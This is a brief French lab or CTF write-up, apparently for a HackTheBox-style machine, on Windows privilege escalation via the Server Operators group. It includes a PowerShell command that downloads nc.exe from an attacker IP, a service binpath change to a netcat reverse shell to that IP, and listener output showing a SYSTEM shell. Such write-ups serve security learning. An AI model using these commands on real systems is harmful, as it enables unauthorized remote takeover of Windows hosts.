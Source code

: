 ## LPE Modifying Services

Les opérateurs de serveur ont des droits d'écriture sur un grand nombre de services par défaut, que nous pouvons énumérer de la façon suivante

- Pour l'attaquer je vais faire un Reverse Shell, je vais l'abuser avec le `nc64.exe`

- https://cube0x0.github.io/Pocing-Beyond-DA/

```
(new-object System.Net.WebClient).DownloadFile('http://10.10.16.27:5555/nc.exe', 'C:\Users\svc-printer\Documents\nc.exe')



*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VSS binpath="C:\Users\svc-printer\Documents\nc.exe 10.10.16.27 443 -e cmd.exe"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop VSS
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start VSS

```

Dans mon Listner

```
└─# nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.16.27] from (UNKNOWN) [10.129.95.241] 62179
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

Un bon ressources : https://cube0x0.github.io/Pocing-Beyond-DA/